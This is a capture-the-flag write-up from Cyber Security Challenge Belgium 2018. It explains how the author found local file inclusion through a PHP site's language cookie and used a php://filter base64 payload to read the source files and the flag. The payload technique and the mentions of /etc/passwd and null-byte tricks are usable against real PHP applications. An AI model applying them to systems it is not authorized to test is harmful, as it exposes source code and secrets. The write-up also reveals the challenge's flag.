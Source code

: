 # Cyber Security Challenge Belgium: water-you-talking-about-50

**Category:** Web Security
**Points:** 50
**Solves:** 15
**Description:**

> (missing description)

## Write-up

I do not have the description anymore but it said something lines of *The flag is a russian word lost in translation*

![index.php]( https://raw.githubusercontent.com/azertyalex/write-ups/master/CSCBE-2018/water-you-talking-about-50/index.jpg "index.php")

When visiting the website we are greeted by a modern design of a Hydropump 2.1 installation. Because of the description I immediatly start browsing looking for a russian word which did not get translated. Nothing turns up for a while so I click on `Pусский` to get the russian version of the site. Still nothing... Time to dig a little deeper!

```
GET / HTTP/1.1
Host: ~~**.***.***.***~~
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: lang=en; ci_session=lmqa66bn85is3ruuls9301um2ivs86tq
Connection: close
Upgrade-Insecure-Requests: 1
```

I look at the request in Burp Suite and try a few basic directory traversal tricks, still nothing...
However, when fiddling around with the language cookie I noticed some php errors turned up! Aha! I have some LFI going on here!
![php_error]( https://raw.githubusercontent.com/azertyalex/write-ups/master/CSCBE-2018/water-you-talking-about-50/php_error.jpg "php_error")

Trying to get /etc/passwd will not work because .php is appended and trying to use string terminators like %00 won't work, we have to try something else here. I tried to include remote files by specifying a URL as parameter, sadly allow_url_include was turned off so that failed.
PHP has a thing called filter, via this command we can use `php://filter/convert.base64-encode/resource=index` as a payload in our lang cookie to get the php sourcecode of the index page in a base64 string. Now it was simply finding the right file that contains the flag and surely enough `php://filter/convert.base64-encode/resource=ru` gave us the flag!

![ru.php in base64]( https://raw.githubusercontent.com/azertyalex/write-ups/master/CSCBE-2018/water-you-talking-about-50/ru.jpg "ru.php in base64")

**Decoded**:

```
<?php
$footer = "&copy; Secure Operational Systems (SoS) 2017";

$welcome = "Добро пожаловать в контрольную панель для установки Hydropump 2.1, которая позволяет вам контролировать и конфигурировать состояние активной установки гидронасоса. Если у вас есть какие-либо вопросы, обратитесь в службу поддержки по телефону +1 294 234 098";
$signinbtn = "войти в систему";
$adminwelcome = "Добро пожаловать в админ-панель. Пожалуйста, выберите ваш выбор из вариантов ниже";
$adminvalve = "Вы можете управлять всеми клапанами ниже. Обратите внимание, что клапан не может быть отключен, если давление слишком велико.";
$adminsafety = "Всегда помните о соблюдении техники безопасности!";
$inspect = "Проверить";
$inspectlong = "Убедитесь, что все ваши загруженные параметры правильны, запустив их в соответствующей среде тестирования. Проблемы с конфигурацией - это проблема номер один с развертываниями и не покрываются вашим соглашением об обслуживании.";
$submit = "Отправить";
$submitlong = "Отправьте свои настройки на бэкэнд. Обратите внимание, что до новых настроек может пройти до трех циклов. Если никаких изменений не произошло, обратитесь в службу поддержки.";
$validate = "Проверить";
$validatelong = "После отправки убедитесь, что ваши настройки имеют желаемый эффект. Если что-то не так, вернитесь к предыдущей конфигурации как можно скорее.";

$historytitle = "Ниже перечислены все файлы, которые были загружены в прошлом. Обратите внимание, что они очищаются каждые 10 минут, чтобы система не становилась чистой и чистой.";

$enterconfig = "Пожалуйста, введите новые конфигурационные файлы.";

$btnupdate = "Обновить конфигурацию";
$btnview = "Просмотр истории конфигурации";
$btncontrol = "Управление клапаном";
$statetitle = "Текущий рабочий статус. Для внесения изменений необходимо пройти аутентификацию.";


$flag = "CSCBE{LFI_through_BASE64_FTW}";

?>


```